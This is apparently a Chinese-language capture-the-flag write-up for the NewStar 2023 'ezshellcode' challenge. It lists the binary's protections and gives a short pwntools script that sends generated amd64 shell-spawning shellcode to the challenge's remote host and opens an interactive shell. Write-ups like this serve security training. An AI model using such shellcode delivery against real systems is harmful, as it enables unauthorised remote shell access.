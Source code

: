 ```yaml
---
title: newstar2023 week1 - ezshellcode
date: 2023/9/25 12:00:00
tags:
    - noob
---
```


## 文件分析

下载`ezshellcode`, NX on, PIE off, Canary off, RELRO partial  
ghidra分析为64位程序

## 解题思路

输入一段shellcode就会直接运行了，发一段64位sh的shellcode即可

## EXPLOIT

```python
from pwn import *
sh = remote("node4.buuoj.cn", 27766)
shc = asm(shellcraft.amd64.linux.sh(), arch='amd64')
sh.sendline(shc)
sh.interactive()
```

Done.
